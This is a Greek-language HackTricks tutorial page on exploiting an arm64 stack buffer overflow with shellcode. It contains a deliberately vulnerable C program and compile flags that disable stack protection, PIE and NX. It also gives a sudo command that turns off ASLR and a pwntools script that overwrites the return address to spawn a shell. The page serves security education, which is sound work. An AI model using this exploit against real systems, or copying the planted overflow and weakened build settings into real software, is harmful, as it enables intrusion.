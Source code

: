 # Stack Shellcode - arm64

{{#include ../../../banners/hacktricks-training.md}}

Βρείτε μια εισαγωγή στο arm64 στο:

{{#ref}}
../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md
{{#endref}}

## Code
```c
#include <stdio.h>
#include <unistd.h>

void vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 256); // <-- bof vulnerability
}

int main() {
vulnerable_function();
return 0;
}
```
Συγκέντρωση χωρίς pie, canary και nx:
```bash
clang -o bof bof.c -fno-stack-protector -Wno-format-security -no-pie -z execstack
```
## Χωρίς ASLR & Χωρίς canary - Stack Overflow

Για να σταματήσετε το ASLR εκτελέστε:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Για να αποκτήσετε το [**offset του bof ελέγξτε αυτόν τον σύνδεσμο**](../ret2win/ret2win-arm64.md#finding-the-offset).

Εκμετάλλευση:
```python
from pwn import *

# Load the binary
binary_name = './bof'
elf = context.binary = ELF(binary_name)

# Generate shellcode
shellcode = asm(shellcraft.sh())

# Start the process
p = process(binary_name)

# Offset to return address
offset = 72

# Address in the stack after the return address
ret_address = p64(0xfffffffff1a0)

# Craft the payload
payload = b'A' * offset + ret_address + shellcode

print("Payload length: "+ str(len(payload)))

# Send the payload
p.send(payload)

# Drop to an interactive session
p.interactive()
```
Το μόνο "περίπλοκο" πράγμα που πρέπει να βρείτε εδώ θα ήταν η διεύθυνση στη στοίβα για να καλέσετε. Στην περίπτωσή μου, δημιούργησα την εκμετάλλευση με τη διεύθυνση που βρήκα χρησιμοποιώντας το gdb, αλλά στη συνέχεια όταν την εκμεταλλεύτηκα δεν λειτούργησε (επειδή η διεύθυνση της στοίβας άλλαξε λίγο).

Άνοιξα το παραγόμενο **`core` αρχείο** (`gdb ./bog ./core`) και έλεγξα τη πραγματική διεύθυνση της αρχής του shellcode.

{{#include ../../../banners/hacktricks-training.md}}
